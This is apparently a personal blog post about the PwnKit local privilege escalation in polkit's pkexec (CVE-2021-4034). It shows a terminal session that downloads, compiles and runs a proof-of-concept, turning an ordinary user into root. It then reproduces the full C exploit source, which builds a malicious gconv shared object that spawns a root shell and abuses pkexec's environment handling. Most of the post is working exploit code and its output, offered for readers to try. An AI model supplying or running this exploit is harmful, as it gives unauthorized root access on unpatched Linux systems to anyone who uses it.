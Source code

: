 ```yaml
---
title: "Local-Privilege-Escalation-in-polkits-pkexec"
date: "2022-01-26T06:21:12-05:00"
Tags: ["vuln", "cve"]
Categories: ["security"] 
---
```

The big news in Linux today is the [Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://seclists.org/oss-sec/2022/q1/90), with [Arstechnica](https://arstechnica.com/information-technology/2022/01/a-bug-lurking-for-12-years-gives-attackers-root-on-every-major-linux-distro/) leading with, "_A bug lurking for 12 years gives attackers root on every major Linux distro - It's likely only a matter of time before PwnKit is exploited in the wild_" Needless to say, I immediately had to try it out on my own, I got on to a [Debian GNU/Linux](https://debian.org), and tried it out! Spoiler: it worked, here's how you can try it too.

```# id
uid=1000(fak3r) gid=1000(fak3r) groups=1000(fak3r),27(sudo)
$ curl -O https://haxx.in/files/blasty-vs-pkexec.c
$ gcc blasty-vs-pkexec.c
$ ./a.out
[~] compile helper..
[~] maybe get shell now?
# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),1000(fak3r)
# 
```

## Code

In case the C code is pulled, here's it is, again, I grabbed it from [haxx.in](https://seclists.org/oss-sec/2022/q1/90)

```
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```
